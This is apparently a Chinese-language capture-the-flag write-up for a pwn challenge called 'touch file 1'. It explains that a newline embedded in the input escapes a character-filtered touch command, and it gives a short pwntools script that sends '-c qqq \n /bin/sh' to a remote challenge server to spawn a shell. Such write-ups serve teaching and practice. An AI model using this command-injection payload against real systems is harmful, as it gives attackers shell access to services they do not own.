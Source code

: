 # touch file 1

## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

考察命令注入，进入touch后存在字符检查，把大部分字符都ban了，
但是想到平时输命令都是按回车执行的，那么利用换行能不能结束touch命令呢？

给新手提个醒，read函数虽然是按'\n'截断输入的，但是将'\n'包含在payload中发送过去时，
只要不是最后一个字符，就不会被截断

测试一下，成功拿到shell

## EXPLOIT

```python
from pwn import *
sh = remote('43.249.195.138', 20440)
sh.sendline(b'1')

sh.sendline(b'-c qqq \n /bin/sh')

sh.interactive()
```

Done.
